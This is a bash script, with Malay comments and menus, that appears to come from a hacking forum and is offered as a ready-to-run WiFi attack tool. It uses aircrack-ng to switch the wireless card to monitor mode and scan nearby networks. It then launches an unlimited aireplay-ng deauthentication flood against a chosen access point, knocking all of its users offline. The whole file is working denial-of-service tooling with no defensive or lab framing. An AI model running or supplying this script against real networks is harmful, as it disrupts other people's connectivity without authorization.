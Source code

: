 # ok
ok
#!/bin/bash

clear
Red="\e[1;91m"      ##### Warna Digunakan #####
Green="\e[0;92m"
Yellow="\e[0;93m"
Blue="\e[1;94m"
White="\e[0;97m"

handshakeWait=2      

checkDependencies () {        ##### Menyemak Aircrack #####
if [ $(dpkg-query -W -f='${Status}' aircrack-ng 2>/dev/null | grep -c "ok installed") -eq 0 ]; then
echo "Installing aircrack-ng\n\n"
sudo apt-get install aircrack-ng;
fi
}

checkWiFiStatus () {        ##### Periksa Wlan0 Aktif #####
WiFiStatus=`nmcli radio wifi`
if [ "$WiFiStatus" == "disabled" ]; then
nmcli radio wifi on
echo -e "[${Green}wlan0${White}] Enabled!"
fi
}

banner () {        ##### Banner #####
printf "__  ______  ____  __  _______   __
\ \/ /  _ \|  _ \ \ \/ /_ _\ \ / /
 \  /| |_) | |_) | \  / | | \ V / 
 /  \|  _ <|  _ <  /  \ | |  | |  
/_/\_\_| \_\_| \_\/_/\_\___| |_| "
                                                                        
printf " \e[0m\e[30;38;5;82mMenendang\e[30;48;5;82mWiFi\e[0m\n"                                                                        
printf " \e[31;1m Cari saya di : \e[37;1m https://dragonforce.io/members/xrrxiy.2248/  \e[0m\n"

printf " \n"
}

menu () {        ##### Paparkan Rangkaian Yang Ada #####
echo -e "\n${Yellow}                      [ Sila Membuat Pilihan ]\n\n"
echo -e "      ${Red}[${White}1${Red}] ${Green}Menendang WiFi"
echo -e "      ${Red}[${White}2${Red}] ${Green}Keluar\n\n"
while true; do
echo -e "${Green}┌─[${Red}Sila Pilih${Green}]──[${Red}~${Green}]─[${Yellow}Menu${Green}]:"
read -p "└─────►$(tput setaf 7) " option
case $option in
  1) echo -e "\n[${Green}Selected${White}] Pilihan 1 Menendang WiFi..."
     MenendangWiFi
     exit 0
     ;;
  *) echo -e "${White}[${Red}Error${White}] Sila membuat pemilihan yang tepat..\n"
     ;;
esac
done
}

MenendangWiFi () {        ##### Dos Attack #####
monitor
airodump-ng --bssid $bssid --channel $channel wlan0mon > /dev/null & sleep 5 ; kill $!  
echo -e "[${Green}${targetName}${White}] Menendang WiFi Dimulakan , Semua Pengguna Ditendang... "
sleep 0.5
echo -e "[${Green}MenendangWiFi${White}] Tekan CTRL+C Untuk Berhenti dan Keluar.."
aireplay-ng --deauth 0 -a $bssid wlan0mon > /dev/null
}

monitor () {        ##### Monitor mode, periksa dan pilih target#####
spinner &
airmon-ng start wlan0 > /dev/null
trap "airmon-ng stop wlan0mon > /dev/null;rm generated-01.kismet.csv handshake-01.cap 2> /dev/null" EXIT
airodump-ng --output-format kismet --write generated wlan0mon > /dev/null & sleep 20 ; kill $!
sed -i '1d' generated-01.kismet.csv
kill %1
echo -e "\n\n${Red}Nombor        Rangkaian WiFi${White}"
cut -d ";" -f 3 generated-01.kismet.csv | nl -n ln -w 8
targetNumber=1000
while [ ${targetNumber} -gt `wc -l generated-01.kismet.csv | cut -d " " -f 1` ] || [ ${targetNumber} -lt 1 ]; do 
echo -e "\n${Green}┌─[${Red}Pilih WiFi${Green}]──[${Red}~${Green}]─[${Yellow}Rangkaian${Green}]:"
read -p "└─────►$(tput setaf 7) " targetNumber
done
targetName=`sed -n "${targetNumber}p" < generated-01.kismet.csv | cut -d ";" -f 3 `
bssid=`sed -n "${targetNumber}p" < generated-01.kismet.csv | cut -d ";" -f 4 `
channel=`sed -n "${targetNumber}p" < generated-01.kismet.csv | cut -d ";" -f 6 `
rm generated-01.kismet.csv 2> /dev/null
echo -e "\n[${Green}${targetName}${White}] Bersedia Untuk Menendang..."
}

spinner() {        ##### Animasi Semasa Menyemak #####
sleep 2
echo -e "[${Green}wlan0mon${White}] Bersedia Untuk Menyemak..."
sleep 3
spin='/-\|'
length=${#spin}
while sleep 0.1; do
echo -ne "[${Green}wlan0mon${White}] Menyemak Rangkaian Yang Ada...${spin:i--%length:1}" "\r"
done
}

MenggodamWiFi() {
checkDependencies
checkWiFiStatus
banner
menu
}

MenggodamWiFi

